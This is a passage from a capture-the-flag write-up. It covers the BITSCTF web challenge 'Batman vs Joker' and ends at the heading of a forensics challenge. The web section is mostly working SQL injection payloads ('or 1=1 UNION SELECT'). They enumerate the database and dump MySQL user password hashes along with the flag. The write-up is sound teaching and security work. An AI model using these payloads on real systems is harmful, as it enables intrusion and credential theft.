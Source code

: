 > Use appropriate brackets and underscores to separate words if you succeed

So I get **BITSCTF{MAP_THE_HACK}**

# 30 - Batman vs Joker - Web

> Joker has left a message for you. Your job is to get to the message asap.
>
> joking.bitsctf.bits-quark.org

Try a quick `' or 1=1 #'`: this is working so we have a vulnerable MySQL database.

Let's enjoy SQLi.

Just curious to know the DB version: `' or 1=1 UNION SELECT @@version,1 #`: **5.5.54-0+deb8u1**

Current databse name: `' or 1=1 UNION SELECT database(),1 #`: **hack**

Just curious to list the databse users: `' or 1=1 UNION SELECT host, user FROM mysql.user #` and `' or 1=1 UNION SELECT user, password FROM mysql.user #`:

host | user | password
--- | --- | ---
% | tester | \*975B2CD4FF9AE554FE8AD33168FBFC326D2021DD
127.0.0.1, 33842653d6db, ::1, localhost | root | \*A2AE2E3109CE064A1AED30C0E71E021540F30700
localhost | debian-sys-maint | \*A9A6626F5FEE26E9EDDE42FF9274124A98F82A3F

I want to know the name of tables in the hack databse: `' or 1=1 UNION SELECT table_schema, table_name FROM information_schema.columns WHERE table_schema = 'hack' #`:

table_schema | table_name
--- | ---
hack | CIA_Official_Records
hack | joker

And finally I want to know the name of columns in the both previous tables: `' or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'CIA_Official_Records' or table_name = 'joker' #`:

table_name | column_name
--- | ---
CIA_Official_Records | id
CIA_Official_Records | username
CIA_Official_Records | first_name
CIA_Official_Records | last_name
Joker | Flag
Joker | HaHaHa

Pretty easy to know where to find teh flag now: `' or 1=1 UNION SELECT Flag, HaHaHa FROM Joker #`:

Flag | HaHaHa
--- | ---
BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!} | Enjoying the game Batman!!!

## 50 - Tom and Jerry - Forensics
